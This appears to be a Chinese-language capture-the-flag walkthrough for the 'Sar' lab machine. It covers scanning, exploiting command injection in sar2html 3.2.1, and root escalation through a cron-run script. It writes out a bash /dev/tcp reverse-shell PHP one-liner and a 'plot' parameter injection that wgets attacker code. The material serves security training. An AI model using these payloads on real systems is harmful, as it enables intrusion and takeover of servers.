## Sar : Walkthrough

### 主机识别

`arp-scan -l`

### 网络拓扑

| 计算机        | IP              |
| ------------- | --------------- |
| 本机（Win10） | `192.168.1.110` |
| Kali          | `192.168.1.112` |
| Sar           | `192.168.1.105` |

### 扫描端口和版本信息

`nmap -A 192.168.1.105`



### 访问 Web 并确定 Web 应用

根据 Nmap 扫描结果可知，Web 应用程序运行的是 **Apache 2.4.29** 服务器，并且只开启 **80** 端口



使用 *dirb* 工具枚举目录



访问 `robots.txt` 文件返回 `sar2HTML`，继续访问该路径发现服务器运行 `sar2html v3.2.1` Web 应用



OSINT 查找该应用漏洞，发现一个 **RCE** 漏洞



接下来根据给出的信息利用 RCE 漏洞



尝试直接反弹 shell 发现不行，那么就用 `wget` 工具下载 PHP 脚本到本地来反弹 shell

 

### Getshell

Kali 端创建 getshell.php 脚本

```php
echo "<?php system(\"bash -c 'bash -i >& /dev/tcp/192.168.1.112/4455 0>&1'\");?>" > getshell.php
```

浏览器访问 `?plot=;wget http://192.168.1.112:8088/getshell.php`，这样虚拟机当前目录下就有 *getshell.php* 文件

Kali 监听 **4455** 端口即可 getshell



在 `/home/love/Desktop/` 路径下发现 `user.txt` 文件，内容是 MD5 值：`427a7e47deb4a8649c7cab38df232b52`，经过解密得知是 `user.txt` 字符串的 MD5 值，后来尝试使用该密码登录虚拟机，却发现密码不对，想必这只是混淆视听并无用处

接下来通过查找具有 SUID 权限的命令，发现 `ping` 、 `arping` 、`pkexec`和 `pppd`不是默认具有 SUID 权限的工具，因此可以尝试提权



### 提权

为了收集更多信息，还是上传 *LinEnum.sh* 脚本运行一下。发现存在一个定时任务执行`/var/www/html`目录下`finally.sh`脚本，并且是 *root* 账户下的定时任务



因此我们修改 *write.sh* 脚本即可提权



Kali 监听 **5566** 端口后过一段时间即可获得 root 权限

